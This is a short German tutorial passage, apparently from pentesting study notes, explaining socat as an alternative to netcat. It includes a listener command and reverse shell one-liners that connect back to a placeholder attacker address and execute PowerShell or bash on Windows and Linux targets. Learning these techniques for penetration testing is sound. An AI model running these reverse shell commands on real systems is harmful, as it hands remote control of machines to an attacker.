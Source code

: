 Socat ähnelt netcat in mancher Hinsicht, unterscheidet sich aber in vielen anderen Punkten grundlegend. Am einfachsten kann man sich socat als eine Verbindung zwischen zwei Punkten vorstellen. Alles, was socat tut, ist, eine Verbindung zwischen zwei Punkten herzustellen - ähnlich wie die Portalgun!


### Reverse Shells

Da die Syntax für Netcat durch Verfeinerungen immer Komplexer werden kann hier erstmal die Basic Syntax

```
socat TCP-L <PORT>
```

Diese Shell verbindet wie oben gesagt zwei Punkte direkt miteinander. Allerdings ist das Resultat etwas instabil und vergleichbar mit `nc -lvnp <Port>`

Unter Windows würden wir diesen Befehl verwenden, um eine Rückverbindung herzustellen:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

Die Option „pipes“ wird verwendet, um Powershell (oder cmd.exe) zu zwingen, die Standardein- und -ausgabe im Unix-Stil zu verwenden 
Dies ist der entsprechende Befehl für ein Linux-Ziel:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC: „bash -li“
```